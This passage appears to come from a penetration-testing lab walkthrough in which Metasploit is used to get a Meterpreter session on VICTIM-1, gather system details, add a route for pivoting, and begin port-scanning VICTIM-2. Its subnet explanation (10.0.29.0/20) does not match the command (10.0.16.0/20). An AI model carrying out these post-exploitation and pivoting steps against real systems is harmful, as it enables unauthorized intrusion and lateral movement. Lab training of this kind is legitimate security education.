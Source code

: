 Run the exploit against the target:

```bash
run
```

If successful, we will obtain a Meterpreter session on VICTIM-1.

---

#### 2. Information Gathering

Once we have the Meterpreter session, we can gather information about the system:

```bash
getuid
```

```bash
sysinfo
```

```bash
ipconfig
```

---

#### 3. Setting Up Pivoting

Now, we want to scan for other systems on the network, specifically VICTIM-2. First, we need to add a route to allow communication with VICTIM-2:

```bash
run autoroute -s 10.0.16.0/20
```
- **Explanation**: This command adds a route to the specified subnet (10.0.29.0/20), allowing us to pivot to other hosts within this range through VICTIM-1.

```bash
run autoroute -p
```

The route is now established, enabling us to scan and access devices within that subnet from Metasploit.

---

#### 4. Scanning VICTIM-2

Next, we need to scan VICTIM-2. We put our current Meterpreter session in the background:

```bash
background
```

Because we can only access VICTIM-2 via Metasploit, we utilize Metasploit’s built-in TCP port scanner module. We search for the port scan module:

```bash
search portscan
```
